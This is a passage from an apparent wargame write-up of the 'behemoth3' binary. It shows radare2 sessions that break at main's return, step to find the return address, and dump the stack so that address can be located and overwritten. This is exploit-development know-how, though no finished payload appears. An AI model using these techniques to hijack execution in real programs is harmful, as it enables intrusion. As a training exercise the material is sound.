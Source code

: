 The known value we use is 'A' which is 0x41 in hexidecimal. We can see that word #6 contains the four A's. 

Next let's determine if there's a jump or return call we could potentially overwrite. Let's attempt to use the main functions return. We can run the program, set a breakpoint at the return call, complete 1 step, then see what the value of EIP is to determine what address the program jumps to. After that, we can find where that value sits on the stack and attempt to overwrite it.

```bash
[0xf7fdaa20]> db 0x080484dc
[0xf7fdaa20]> dc
Identify yourself: hello
Welcome, hello

aaaand goodbye again.
hit breakpoint at: 80484dc
[0x080484dc]> ds
[0xf7e2f637]> 
```

We can see the program is sitting at 0xf7e2f637. Let's restart the program, run to the same breakpoint and print the contents of the stack.

```bash
[0xf7e2f637]> ood
Process with PID 29128 started...
File dbg:///behemoth/behemoth3  reopened in read-write mode
= attach 29128 29128
29128
[0xf7fdaa20]> dc
Identify yourself: hello
Welcome, hello

aaaand goodbye again.
hit breakpoint at: 80484dc
[0x080484dc]> px 500 @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd5fc  37f6 e2f7 0100 0000 94d6 ffff 9cd6 ffff  7...............
0xffffd60c  0000 0000 0000 0000 0000 0000 0070 fcf7  .............p..
0xffffd61c  04dc fff7 00d0 fff7 0000 0000 0070 fcf7  .............p..
0xffffd62c  0070 fcf7 0000 0000 d6d3 ab4e c63d ec74  .p.........N.=.t
0xffffd63c  0000 0000 0000 0000 0000 0000 0100 0000  ................
0xffffd64c  8083 0408 0000 0000 f0ef fef7 8098 fef7  ................
0xffffd65c  00d0 fff7 0100 0000 8083 0408 0000 0000  ................
0xffffd66c  a183 0408 7d84 0408 0100 0000 94d6 ffff  ....}...........
0xffffd67c  e084 0408 4085 0408 8098 fef7 8cd6 ffff  ....@...........
0xffffd68c  18d9 fff7 0100 0000 cbd7 ffff 0000 0000  ................
0xffffd69c  dfd7 ffff f3d7 ffff 07d8 ffff 17d8 ffff  ................
0xffffd6ac  39d8 ffff 4cd8 ffff 55d8 ffff 64d8 ffff  9...L...U...d...
0xffffd6bc  ecdd ffff f7dd ffff 10de ffff c8de ffff  ................
0xffffd6cc  d6de ffff e7de ffff efde ffff 04df ffff  ................
0xffffd6dc  16df ffff 28df ffff 5ddf ffff 7ddf ffff  ....(...]...}...
0xffffd6ec  9ddf ffff bfdf ffff d6df ffff 0000 0000  ................
0xffffd6fc  2000 0000 e09b fdf7 2100 0000 0090 fdf7   .......!.......
0xffffd70c  1000 0000 fffb 8b17 0600 0000 0010 0000  ................
0xffffd71c  1100 0000 6400 0000 0300 0000 3480 0408  ....d.......4...
0xffffd72c  0400 0000 2000 0000 0500 0000 0800 0000  .... ...........
0xffffd73c  0700 0000 00a0 fdf7 0800 0000 0000 0000  ................
0xffffd74c  0900 0000 8083 0408 0b00 0000 cb32 0000  .............2..
0xffffd75c  0c00 0000 cb32 0000 0d00 0000 cb32 0000  .....2.......2..
0xffffd76c  0e00 0000 cb32 0000 1700 0000 0000 0000  .....2..........
0xffffd77c  1900 0000 abd7 ffff 1f00 0000 e4df ffff  ................
0xffffd78c  0f00 0000 bbd7 ffff 0000 0000 0000 0000  ................
0xffffd79c  0000 0000 0000 0000 0000 0000 0000 0081  ................
0xffffd7ac  5e7d 9ae9 83d8 14cf 64cd 0d86 23c3 f469  ^}......d...#..i
0xffffd7bc  3638 3600 0000 0000 0000 0000 0000 002f  686............/
```